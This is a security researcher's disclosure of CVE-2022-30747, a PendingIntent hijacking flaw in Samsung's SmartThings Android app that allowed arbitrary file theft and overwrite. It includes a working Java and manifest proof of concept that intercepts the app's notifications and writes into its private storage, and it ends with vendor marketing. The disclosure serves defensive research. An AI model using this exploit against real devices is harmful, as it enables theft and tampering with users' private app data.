


# Details

<table>
    <tr>
        <td>Name</td>
        <td>SmartThings</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.oneconnect</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.19</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.06.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-30747">CVE-2022-30747</a> (SVE-2022-0970)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$900</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found the use of an implicit intent to create a `PendingIntent` object for notifications without using the `PendingIntent.FLAG_IMMUTABLE` flag. The attacker's app, if it had access to app notifications, could intercept them and redirect them to its activity, before making it grant content providers with the `android:grantUriPermissions="true"` flag, if the app was running on devices running Android SDK 24-30.

One such provider in the app granted access to arbitrary files, leading to the possibility of arbitrary files being stolen and overwritten:


**Proof of Concept**

This code will create the file `/data/user/0/com.samsung.android.oneconnect/test.txt` with content `test` as soon as the notification is sent by the SmartThings app.

File `AndroidManifest.xml`:
```xml
<service android:name=".NotificationListener" android:label="PoC" android:permission="android.permission.BIND_NOTIFICATION_LISTENER_SERVICE" android:exported="true">
    <intent-filter>
        <action android:name="android.service.notification.NotificationListenerService" />
    </intent-filter>
</service>
```
```xml
<activity android:name=".InterceptActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="smth" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

File `NotificationListener.java`:
```java
private static final String APP = "com.samsung.android.oneconnect";

@Override
public void onNotificationPosted(StatusBarNotification sbn, NotificationListenerService.RankingMap rankingMap) {
    if (!APP.equals(sbn.getPackageName())) {
        return;
    }
    PendingIntent contentIntent = sbn.getNotification().contentIntent;
    if (contentIntent == null) {
        return;
    }
    try {
        Intent fillin = new Intent();
        fillin.setPackage(getPackageName());
        fillin.addCategory("smth");
        fillin.setClipData(getClipData());
        fillin.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
                | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
                | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);
        contentIntent.send(this, 0, fillin);
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}

private ClipData getClipData() {
    Uri uri = Uri.parse("content://com.samsung.android.oneconnect.castfileprovider/root/data/user/0/com.samsung.android.oneconnect/test.txt");
    return ClipData.newRawUri("", uri);
}
```

File `InterceptActivity.java`:
```java
Uri uri = getIntent().getClipData().getItemAt(0).getUri();
try (OutputStream outputStream = getContentResolver().openOutputStream(uri)) {
    outputStream.write("test".getBytes());
} catch (Throwable th) {
    throw new RuntimeException(th);
}
```

As a result, when the app displays this notification, the attacking app will automatically click on `PendingIntent` and forward it to `InterceptActivity`.

## References

- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)
- [Oversecured Blog. Android security checklist: theft of arbitrary files. Gaining access to arbitrary* content providers](https://blog.oversecured.com/Android-security-checklist-theft-of-arbitrary-files/#gaining-access-to-arbitrary-content-providers)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.